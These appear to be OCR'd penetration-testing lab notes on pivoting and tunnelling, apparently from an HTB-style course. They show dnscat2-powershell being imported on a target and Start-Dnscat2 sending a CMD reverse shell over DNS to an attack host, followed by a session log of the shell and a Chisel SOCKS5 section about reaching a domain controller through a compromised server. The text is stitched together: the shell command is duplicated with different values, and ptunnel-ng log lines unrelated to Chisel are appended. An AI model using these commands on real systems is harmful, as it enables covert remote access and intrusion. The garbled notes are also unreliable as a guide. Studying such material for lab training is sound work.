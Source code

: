     - `git clone https://github.com/lukebaggett/dnscat2-powershell.git`
    
    Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.
    
    ### **Importing dnscat2.ps1**
    
    - `PS C:\htb> Import-Module .\dnscat2.ps1`

Then lets establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

Start-Dnscat2 -DNSserver 10.10.14.7 -Domain inlanefreight.local -PreSharedSecret e11c67b58a77f306eae39e33a5de2384 -Exec cmd

### **Interacting with the Established Session**

```
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## **SOCKS5 Tunneling with Chisel**

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. 

Chisel can create a client-server tunnel connection in a firewall restricted environment. 

Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.